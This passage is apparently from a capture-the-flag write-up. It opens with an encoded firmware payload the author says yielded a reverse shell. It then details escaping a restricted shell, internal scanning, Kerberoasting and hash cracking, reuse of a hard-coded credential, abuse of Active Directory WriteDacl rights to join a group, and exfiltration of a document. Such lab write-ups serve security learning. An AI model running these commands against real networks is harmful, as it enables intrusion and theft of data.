FiSHJqoEk8ngIUWNa8lDqD8ZHFSVcHpw8BB2sWgKttQY06R6UE2m1FREjcVwvxSlfbu/O6AEtrSRBBrWPoyUtie3+Ls7W9kSPd8GUx1bepWATGuQ27YjpaNra4u/S9na3r4j0KP0+Fu6Agpk+oRSab3n98zoMVOKmpkcIDUc1IJG9hFTQPKOWEs+q4gpNTKROAdSNT0lM4OJMWGymThnNv9ICacSSiQYD5PcpM6tuCAcjSvplBq2DgIZSaz3pVK0WT37iSZVcfXjwYFr45jcxCZWMRUYaVsMhaTUoUEt2IdRSxoYgaNoHNc9hKR4QlMlHNNSXzoaC9dEw5Tyt3TWkMDWyyLBVARJ4UNxXJ+BWtIoIREWTcQZRcFlSTUWJIb0aCimkSbxYJBDaSCBDzR1GH/rYSIlE/pVl9QIDelIODmvGa5GRBoecBwmFyoaQqRGoxGjHjzgSMJ31yC+E+zu/X9DyPqK/E2C6atTfiwI/87ps4jNyeLzQVdz9vz0toHzh/kOP+9x8ifzpFt4jQP+MN8GhPZhOmx9Z0eEzDvKLO3DvBxwGz1hyHcDf1if7URsfifM3wEnufb48duLjDUc+MM8HxDGH/ovcngAGWtC0GE9AFiN7PsPchgZY2r2v4hF6D8/fnD+R6h/C/S/mEWr/1Ib/2PImguL8vKlYf0Mwl//DOcP6xXACc6eT8t+gfOHdQ0gP14eDr/P+cO8AbCOWxfyy6Mfcv4wXwMs5ez58/8xYu9fPm98BWfP+/+M83fKy3byf43zh/UZoIcLeH48X0dG7i8sh8087Rp7e37838KfCos/zPtnP6H/n5Ex9uBv5sFT/2nL/W/1g+v4XWScP/jD+vGyz8C1H9P++5y/ua6gv1Hs+hj/f3D+MO/eVcv2k/cH+Yhy4A/z0kitvT3//LpLOf4nFfD/nIO/FW1+OkET1P8yHXjyHPSh/OdHqaXvTPuPGPgXrnK+/wsd/J/YaGAJ58D7/wtQSwECHgMUAAAACADBLJBTqbqE5D0LAADYQgAADAAYAAAAAAAAAAAA7YEAAAAAZmlybXdhcmUuYmluVVQFAAMKF7thdXgLAAEE6AMAAAToAwAAUEsFBgAAAAABAAEAUgAAAIMLAAAAAA== 
```

I replaced the `firmware` and `signature` in the `firmware-export.json` and uploaded the new file. This time we received a "Firmware successfully uploaded" message. Going back to the listener, we received the shell. Obtaining the `xlsx` file is trivial.


## 8) Kerberoasting on an Open Fire


Upon accessing the site, we have to register for an account. This account give us ssh access to a grading portal.




Once we ssh in, we are greeted with a command line GUI of the grading portal.


Sending Ctrl+D sends an exit to the program which allow us escape to the python shell. We then run `os.system('/bin/bash')` to spawn a bash shell.


Let's check out the `/opt/` directory where the grading_system ran from.

```sh
jcvvnijslh@grades:~$ cd /opt

jcvvnijslh@grades:/opt$ ls -la
total 16
drwxr-xr-x 1 root root 4096 Dec  1 14:18 .
drwxr-xr-x 1 root root 4096 Dec 28 21:35 ..
-rwxr-xr-x 1 root root 1566 Dec  1 14:18 grading_system
drwxr-xr-x 1 root root 4096 Oct 21 22:08 microsoft
```

There is a microsoft directory here which contains some powershell scripts (.ps1) and powershell app.

```sh
jcvvnijslh@grades:/opt/microsoft/powershell/7-preview$ ls -la | grep pwsh
-rwxr-xr-x  1 sjyeexkjsh sjyeexkjsh   142840 Oct 21 05:31 pwsh
-rw-r--r--  1 sjyeexkjsh sjyeexkjsh   152680 Oct 21 05:32 pwsh.deps.json
-rw-r--r--  1 sjyeexkjsh sjyeexkjsh   146944 Oct 21 05:32 pwsh.dll
-rw-r--r--  1 sjyeexkjsh sjyeexkjsh      491 Oct 21 05:31 pwsh.runtimeconfig.json
-rw-r--r--  1 sjyeexkjsh sjyeexkjsh     8682 Oct 21 05:31 pwsh.xml
```

We check the IP routing table and notice a few other subnets. Let's run `nmap` on these subnets.

```sh
jcvvnijslh@grades:~$ netstat -rn
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
0.0.0.0         172.17.0.1      0.0.0.0         UG        0 0          0 eth0
10.128.1.0      172.17.0.1      255.255.255.0   UG        0 0          0 eth0
10.128.2.0      172.17.0.1      255.255.255.0   UG        0 0          0 eth0
10.128.3.0      172.17.0.1      255.255.255.0   UG        0 0          0 eth0
172.17.0.0      0.0.0.0         255.255.0.0     U         0 0          0 eth0
```

Using `nmap`, we found an interest host which looks like a Domain Controller.

```sh
jcvvnijslh@grades:~$ nmap 10.128.3.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-29 03:55 UTC
...
Nmap scan report for 10.128.3.30
Host is up (0.00072s latency).
Not shown: 966 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
636/tcp  open  ldapssl
1024/tcp open  kdm
1025/tcp open  NFS-or-IIS
1026/tcp open  LSA-or-nterm
1027/tcp open  IIS
1028/tcp open  unknown
1029/tcp open  ms-lsa
1030/tcp open  iad1
1031/tcp open  iad2
1032/tcp open  iad3
1033/tcp open  netinfo
1034/tcp open  zincite-a
1035/tcp open  multidropper
1036/tcp open  nsstp
1037/tcp open  ams
1038/tcp open  mtqp
1039/tcp open  sbl
1040/tcp open  netsaint
1041/tcp open  danf-ak2
1042/tcp open  afrog
1043/tcp open  boinc
1044/tcp open  dcutility
2222/tcp open  EtherNetIP-1
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

Nmap scan report for 10.128.3.31
Host is up (0.00069s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2222/tcp open  EtherNetIP-1
...
```

We enumerate the host further with `nmap`. Notice the SMB share with workgroup `ELFU`.

```sh
jcvvnijslh@grades:~$ nmap -sV -v -Pn -n -p1-65535 10.128.3.30
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-29 05:51 UTC
...
Completed Connect Scan at 05:51, 2.18s elapsed (65535 total ports)
Initiating Service scan at 05:51
Scanning 34 services on 10.128.3.30
Completed Service scan at 05:52, 53.55s elapsed (34 services on 1 host)
NSE: Script scanning 10.128.3.30.
Initiating NSE at 05:52
Completed NSE at 05:52, 0.07s elapsed
Initiating NSE at 05:52
Completed NSE at 05:52, 0.04s elapsed
Nmap scan report for 10.128.3.30
Host is up (0.00017s latency).
Not shown: 65501 closed ports
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
53/tcp   open  domain       (generic dns response: NOTIMP)
80/tcp   open  http         Werkzeug httpd 2.0.2 (Python 3.8.10)
88/tcp   open  kerberos-sec Heimdal Kerberos (server time: 2021-12-29 05:52:04Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: ELFU)
389/tcp  open  ldap         (Anonymous bind OK)
445/tcp  open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: ELFU)
464/tcp  open  kpasswd5?
636/tcp  open  ssl/ldap     (Anonymous bind OK)
1024/tcp open  msrpc        Microsoft Windows RPC
1025/tcp open  tcpwrapped
1026/tcp open  tcpwrapped
1027/tcp open  tcpwrapped
1028/tcp open  tcpwrapped
1029/tcp open  tcpwrapped
1030/tcp open  tcpwrapped
1031/tcp open  tcpwrapped
1032/tcp open  tcpwrapped
1033/tcp open  tcpwrapped
1034/tcp open  tcpwrapped
1035/tcp open  tcpwrapped
1036/tcp open  tcpwrapped
1037/tcp open  tcpwrapped
1038/tcp open  tcpwrapped
1039/tcp open  tcpwrapped
1040/tcp open  tcpwrapped
1041/tcp open  tcpwrapped
1042/tcp open  tcpwrapped
1043/tcp open  tcpwrapped
1044/tcp open  tcpwrapped
2222/tcp open  ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3268/tcp open  ldap         (Anonymous bind OK)
3269/tcp open  ssl/ldap     (Anonymous bind OK)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=12/29%Time=61CBF789%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,2B,"\0\)\0\x06\x81\x80\0\x01\0\0\0\0\0\x01\x07version
SF:\x04bind\0\0\x10\0\x03\0\0\)\x02\0\0\0\0\0\0\0")%r(DNSStatusRequestTCP,
SF:E,"\0\x0c\0\0\x90\x04\0\0\0\0\0\0\0\0");
Service Info: Host: SHARE30; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.26 seconds

```

Let's check out the SMB share to see if it contains anything interesting. Seems like we can list the shares anonymously. There are two interesting shares, `elfu_svc_shr` and `research_dep`.  Seems like we are supposed to access the `research_dep` share to get the secret sleigh research document.

```sh
jcvvnijslh@grades:~$ smbclient -L //10.128.3.30/

Enter WORKGROUP\jcvvnijslh's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        netlogon        Disk      
        sysvol          Disk      
        elfu_svc_shr    Disk      elfu_svc_shr
        research_dep    Disk      research_dep
        IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available
```

I tried to see if we can connect to the share anonymously but to no avail.

```sh
jcvvnijslh@grades:~$ smbclient //10.128.3.30/research_dep
Enter WORKGROUP\jcvvnijslh's password: 
Anonymous login successful
tree connect failed: NT_STATUS_ACCESS_DENIED
```

While enumerating the server, I found useful python scripts for Kerberoasting.

```sh
jcvvnijslh@grades:/usr/local/bin$ ls -la | grep "Get*"
-rwxr-xr-x 1 root root 10745 Oct 27 19:38 GetADUsers.py
-rwxr-xr-x 1 root root 12752 Oct 27 19:38 Get-GPPPassword.py
-rwxr-xr-x 1 root root 19307 Oct 27 19:38 GetNPUsers.py
-rwxr-xr-x 1 root root 25110 Oct 27 19:38 GetUserSPNs.py
```

Let's use `GetUserSPNs.py` to see if there are any account who have Service Principal Name set If so, this script can allow us to obtain their password hash.

```sh
jcvvnijslh@grades:~$ python3 /usr/local/bin/GetUserSPNs.py -outputfile spns.txt elfu.local/jcvvnijslh:'Lrunqgwoy@' -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName                 Name      MemberOf  PasswordLastSet             LastLogon                   Delegation 
-----------------------------------  --------  --------  --------------------------  --------------------------  ----------
ldap/elfu_svc/elfu                   elfu_svc            2021-10-29 19:25:04.305279  2021-12-29 04:15:53.650628             
ldap/elfu_svc/elfu.local             elfu_svc            2021-10-29 19:25:04.305279  2021-12-29 04:15:53.650628             
ldap/elfu_svc.elfu.local/elfu        elfu_svc            2021-10-29 19:25:04.305279  2021-12-29 04:15:53.650628             
ldap/elfu_svc.elfu.local/elfu.local  elfu_svc            2021-10-29 19:25:04.305279  
2021-12-29 04:15:53.650628

jcvvnijslh@grades:~$ cat spns.txt 
$krb5tgs$23$*elfu_svc$ELFU.LOCAL$elfu.local/elfu_svc*$03a0a3a6dfd6aa0d106a02acc3ae4457$017b7e88812e2d3ed1bb063e959f723eafc35b478e90771afca04abb9362bf7d70ec441aa2192337deccc0656ef53264c3b4dc80e3702bb804a7f1b7c9356b60df05a9a17d11e4715d3c1aed625ea31a958b355293f16a46fe6332f658b333f7e5ee268b51990e4c813d615a09fc242bbef0fe5e9d94a8e8ac60e61bd18b911faeffda5e2a54916a867c6e2bdc0d5c34fd33809816ce3bad768d439bf6124a6aa7b3b830c09ecca1067d5c97b6ecabe37831cadf9adf40919d55d4395082da18103f53cc1e70e7cc8b064b4a56f5261f936c0630ba5394d79f4e634878d1bb843191ba7f4b39511d1dc3aee59e86d6a17508ca2d934d5524380cb842dbb52c70f752647dac051db975f3013bb4c401e33dd5322900858df7a80476a83061386dd7fd8151cfaa79747c69e4d4cd0c50691547e74a6b148a13e1663b58574cf9c2de46725f4851973675a9d30813cf94631da2fb0a4e148e92e0530f538126021511ee2c7af17d129d33c5d9faeb35c5508fb47c4bd5096cd4d4b6214f84c3ba7d38690425fdafbadb49413e6c5458de5e5690255474688f49ad69b49d6f56554ba22eae2a3c595aa4b57c0bd2c7a778f6157fef1f3f150845ee32fed90160ff22275cb8b928aca7f3df2b99a9c2f86e2be02cc020495a273c9ad4deb67e808d4a55bfce15a8906261528ddea07c3e1ed3159cb5b4d23e876b96ed106038bc2b58406c2e5ed5933161ec5607ff5a8d34e02ce95fe58a9eb045e5252f0540e4cde1d157688532fd26947d51576f5deef9996e4d86ca5bdfda2e4092f92928cba89d96de89eaf3f26fd35a7b9ab1137c6a1b21d6b3c35dd8acfa2154e0e7500451a360698cffc6b04cbda1a0cd146f63c35d0d64dda6347b0a0558abb0ec06ea3ae76cfc1a3d9254376598d1c78371afaf0eadd6f01f6eec8a4369cbaa089e19091ea8372e3493ff1c58a8afe7ef22d9259c67f28fefcf8a28d3c21481c5d56198b93d18a048e225de9e86d85ca8596500b90e40e8422540668b9397b532c7ab083907b544c5548521dce91b5679e116b17b433fca0c6b463cdf6c4cffe826409cc1faeb04ea6e6c95f5b7fedb8096a26092ffaeead0e58e7a43c04c85141a00330e93b5db337985685e5340e0267db783ac399d451fae77bc26540d8b0585b20865106b4b69be94f044514445d683e9431471335e5cbb42b50ac6237811a8ca652eb576a581e4338687bca95173acc9be2e157517fa35c69f786a853a5267f1c145653c915d887f9505989b5cff12ba66b6b2db923aa125844f248dcf07e06057720c559c9f9ec401d87ae30c2032b4b42765eebe48e56b1334f1e25b6327ef9f92b0e75606f80543c482952703001ee476448fc545011062f755a362f693ea811eed8265e5faa1fdf150024df1721f07bf884f7dcd6ee1f4b6c8db6a734cc346d8978473c0f8
```

In the hint, it was mentioned that `CeWL` is useful for generating wordlist and ignore digits by default. Let's use it on the registration website.

```sh
>> cewl -m 5 -w wordlist.txt https://register.elfu.org/register --with-numbers 
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

>> wc -l wordlist.txt                                                          
43 wordlist.txt
```

 Also, `OneRuleToRuleThemAll.rule` is mentioned as well. Let's include it into our `hashcat` command when cracking the spns.txt. We managed to crack the password for `elfu.local/elfu_svc` - `Snow2021!`.

 ```sh
>> hashcat -m 13100 -a 0 spns.txt -r OneRuleToRuleThemAll.rule wordlist.txt
...
$krb5tgs$23$*elfu_svc$ELFU.LOCAL$elfu.local/elfu_svc*$03a0a3a6dfd6aa0d106a02acc3ae4457$017b7e88812e2d3ed1bb063e959f723eafc35b478e90771afca04abb9362bf7d70ec441aa2192337deccc0656ef53264c3b4dc80e3702bb804a7f1b7c9356b60df05a9a17d11e4715d3c1aed625ea31a958b355293f16a46fe6332f658b333f7e5ee268b51990e4c813d615a09fc242bbef0fe5e9d94a8e8ac60e61bd18b911faeffda5e2a54916a867c6e2bdc0d5c34fd33809816ce3bad768d439bf6124a6aa7b3b830c09ecca1067d5c97b6ecabe37831cadf9adf40919d55d4395082da18103f53cc1e70e7cc8b064b4a56f5261f936c0630ba5394d79f4e634878d1bb843191ba7f4b39511d1dc3aee59e86d6a17508ca2d934d5524380cb842dbb52c70f752647dac051db975f3013bb4c401e33dd5322900858df7a80476a83061386dd7fd8151cfaa79747c69e4d4cd0c50691547e74a6b148a13e1663b58574cf9c2de46725f4851973675a9d30813cf94631da2fb0a4e148e92e0530f538126021511ee2c7af17d129d33c5d9faeb35c5508fb47c4bd5096cd4d4b6214f84c3ba7d38690425fdafbadb49413e6c5458de5e5690255474688f49ad69b49d6f56554ba22eae2a3c595aa4b57c0bd2c7a778f6157fef1f3f150845ee32fed90160ff22275cb8b928aca7f3df2b99a9c2f86e2be02cc020495a273c9ad4deb67e808d4a55bfce15a8906261528ddea07c3e1ed3159cb5b4d23e876b96ed106038bc2b58406c2e5ed5933161ec5607ff5a8d34e02ce95fe58a9eb045e5252f0540e4cde1d157688532fd26947d51576f5deef9996e4d86ca5bdfda2e4092f92928cba89d96de89eaf3f26fd35a7b9ab1137c6a1b21d6b3c35dd8acfa2154e0e7500451a360698cffc6b04cbda1a0cd146f63c35d0d64dda6347b0a0558abb0ec06ea3ae76cfc1a3d9254376598d1c78371afaf0eadd6f01f6eec8a4369cbaa089e19091ea8372e3493ff1c58a8afe7ef22d9259c67f28fefcf8a28d3c21481c5d56198b93d18a048e225de9e86d85ca8596500b90e40e8422540668b9397b532c7ab083907b544c5548521dce91b5679e116b17b433fca0c6b463cdf6c4cffe826409cc1faeb04ea6e6c95f5b7fedb8096a26092ffaeead0e58e7a43c04c85141a00330e93b5db337985685e5340e0267db783ac399d451fae77bc26540d8b0585b20865106b4b69be94f044514445d683e9431471335e5cbb42b50ac6237811a8ca652eb576a581e4338687bca95173acc9be2e157517fa35c69f786a853a5267f1c145653c915d887f9505989b5cff12ba66b6b2db923aa125844f248dcf07e06057720c559c9f9ec401d87ae30c2032b4b42765eebe48e56b1334f1e25b6327ef9f92b0e75606f80543c482952703001ee476448fc545011062f755a362f693ea811eed8265e5faa1fdf150024df1721f07bf884f7dcd6ee1f4b6c8db6a734cc346d8978473c0f8:Snow2021!
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*elfu_svc$ELFU.LOCAL$elfu.local/elfu_sv...73c0f8
Time.Started.....: Wed Dec 29 01:20:47 2021 (4 secs)
Time.Estimated...: Wed Dec 29 01:20:51 2021 (0 secs)
Guess.Base.......: File (wordlist.txt)
Guess.Mod........: Rules (OneRuleToRuleThemAll.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   370.2 kH/s (1.42ms) @ Accel:4 Loops:16 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1750272/2235785 (78.28%)
Rejected.........: 0/1750272 (0.00%)
Restore.Point....: 0/43 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:40688-40704 Iteration:0-16
Candidates.#1....: Ndomai -> cimes

Started: Wed Dec 29 01:20:27 2021
Stopped: Wed Dec 29 01:20:52 2021
 ```

We can now use `smbclient` to connect to the share. It contains a lot of powershell scripts.

```sh
smbclient //10.128.3.30/elfu_svc_shr -U elfu.local/elfu_svc%Snow2021!
```


One powershell script that caught our attention is `GetProcessInfo.ps1`. Let's download it from the SMB share.

```sh
smb: \> get GetProcessInfo.ps1 
getting file \GetProcessInfo.ps1 of size 699 as GetProcessInfo.ps1 (682.6 KiloBytes/sec) (average 682.6 KiloBytes/sec)
```

Interestingly, a set of credentials is stored in this script! `remote_elf` connects to another host, `10.128.1.53`.

```sh
jcvvnijslh@grades:~$ cat GetProcessInfo.ps1 
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
```

Remember we have powershell on this server? We can use it to test this powershell script. We can see the processes running on `10.128.1.53`, which proves that the credentials are still working.

```sh
jcvvnijslh@grades:~$ /opt/microsoft/powershell/7-preview/pwsh
PowerShell 7.2.0-rc.1
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /home/jcvvnijslh> ./GetProcessInfo.ps1

 NPM(K)    PM(M)      WS(M)     CPU(s)      Id  SI ProcessName                   PSComputerName
 ------    -----      -----     ------      --  -- -----------                   --------------
      9     4.26      10.09       0.00    5660   0 conhost                       10.128.1.53
     21     2.34       5.45       0.00     604   0 csrss                         10.128.1.53
      9     1.68       4.74       0.00     688   1 csrss                         10.128.1.53
     33    17.38      22.70       0.00    3956   0 dfsrs                         10.128.1.53
     13     2.50       8.03       0.00    2904   0 dfssvc                        10.128.1.53
      9     1.89       8.66       0.00    3896   0 dllhost                       10.128.1.53
     14     4.09      13.50       0.00    4176   0 dllhost                       10.128.1.53
  36241   946.11     905.75       0.00    3940   0 dns                           10.128.1.53
     21    11.07      27.23       0.00    1128   1 dwm                           10.128.1.53
      6     1.34       4.21       0.00    4644   1 fontdrvhost                   10.128.1.53
      6     1.68       5.05       0.00    4876   0 fontdrvhost                   10.128.1.53
     15    22.79      19.88       0.00    3544   0 GCEWindowsAgent               10.128.1.53
     17    22.38      22.00       0.00    1264   0 google_osconfig_agent         10.128.1.53
      7     1.67       5.78       0.00    3980   0 GoogleVssAgent                10.128.1.53
      0     0.05       0.01       0.00       0   0 Idle                          10.128.1.53
     12     2.23       5.87       0.00    3932   0 ismserv                       10.128.1.53
     31    12.45      45.72       0.00    1096   1 LogonUI                       10.128.1.53
   1114   158.11     156.48       0.00     844   0 lsass                         10.128.1.53
     86    56.77      73.05       0.00    3948   0 Microsoft.ActiveDirectory.We… 10.128.1.53
...
```

We can modify `GetProcessInfo.ps1` to start a remote session instead.

```sh
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Enter-PSSession -ComputerName 10.128.1.53 -Credential $aCred -Authentication Negotiate
```

We paste the following in the powershell and connected to the remote session.

```sh
...
PS /home/jcvvnijslh> Enter-PSSession -ComputerName 10.128.1.53 -Credential $aCred -Authentication Negotiate
[10.128.1.53]: PS C:\Users\remote_elf\Documents> 

[10.128.1.53]: PS C:\Users\remote_elf\Documents> whoami
elfu\remote_elf
```

I tried to find if my `remote_elf` have WriteDACL using the command below, but I can't seem to find it.

```sh
$ADSI = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
```

Turns out that I am not thinking enough. I should focus on the goal of the challenge, which is to access `research_dep` at 10.128.3.30. Let's see the groups in the network. Turns out there's a `ResearchDepartment` group in the network.

```sh
[10.128.1.53]: PS C:\Users\remote_elf\Documents> net groups

Group Accounts for \\

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*File Shares
*Group Policy Creator Owners
*Key Admins
*Protected Users
*Read-only Domain Controllers
*RemoteManagementDomainUsers
*ResearchDepartment
*Schema Admins
```

We modify the previous command to `CN=ResearchDepartment` but it does not work, Using the directory search, it turns out that it is `CN=Research Department`. Not sure why it's like this.

```sh
[10.128.1.53]: PS C:\Users\remote_elf\Documents> (New-Object System.DirectoryServices.DirectorySearcher([ADSI]"LDAP://CN=Users,DC=elfu,DC=local")).FindAll() | findstr 'Research'                                             
LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local                     {usnchanged, distinguishedname,...
```

```sh
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
```

This time, we can see the WriteDacl rights for `remote_elf`.

```sh
...
ActiveDirectoryRights : GenericAll
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ELFU\Domain Admins
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : WriteDacl
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ELFU\remote_elf
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
...
```

We give our registered user "Generic All" rights.

```sh
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "jcvvnijslh"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID)
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

Now, we check the Access Rules again.

```sh
([ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local").psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])

...
ActiveDirectoryRights : GenericAll
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ELFU\jcvvnijslh
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
...
```

Now, we add our user into the `Research Department` group.

```sh
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "jcvvnijslh"
$password = "Lrunqgwoy@"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid = $user.Translate([System.Security.Principal.SecurityIdentifier])
$b = New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

We check the users in the group. We are in!

```
net group "ResearchDepartment" /domain 
```


Now, we connect to the SMB Share with our registered user's credentials. We can see the secret pdf file!

```
jcvvnijslh@grades:~$ smbclient //10.128.3.30/research_dep -U elfu.local/jcvvnijslh%Lrunqgwoy@
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Tue Dec 28 21:35:08 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

                41089256 blocks of size 1024. 34253560 blocks available
```


We copy the file to our ssh server.

```sh
smb: \> get SantaSecretToAWonderfulHolidaySeason.pdf 
getting file \SantaSecretToAWonderfulHolidaySeason.pdf of size 173932 as SantaSecretToAWonderfulHolidaySeason.pdf (56616.6 KiloBytes/sec) (average 56618.5 KiloBytes/sec)
```

To exfiltrate it, there is two ways.

1. Base64-Encode

We base64-encode the file and copy the base64 string. On our host, we open `cyberchef` to decode it.

```sh
jcvvnijslh@grades:~$ base64 SantaSecretToAWonderfulHolidaySeason.pdf
```


2. scp

When we try to use scp to transfer out, we get this error.

```sh
>> scp -P 2222 jcvvnijslh@grades.elfu.org:SantaSecretToAWonderfulHolidaySeason.pdf SantaSecretToAWonderfulHolidaySeason.pdf
jcvvnijslh@grades.elfu.org's password: 
TERM environment variable not set.
\033[36m===================================================\033[0m
```

Checking the `/etc/passwd`, this is because the default shell for our user is `/opt/grading_system`. We need to change the shell.
```sh
jcvvnijslh@grades:~$ cat /etc/passwd | grep jcvvnijslh
jcvvnijslh:x:1035:1035::/home/jcvvnijslh:/opt/grading_system
```

We do not have sudo permission, nor do we have write permission to modify `/etc/passwd`. Let's check if there are any SUID binaries we can exploit.

```sh
jcvvnijslh@grades:~$ find / -user root -perm -4000 2>/dev/null
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/mount
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
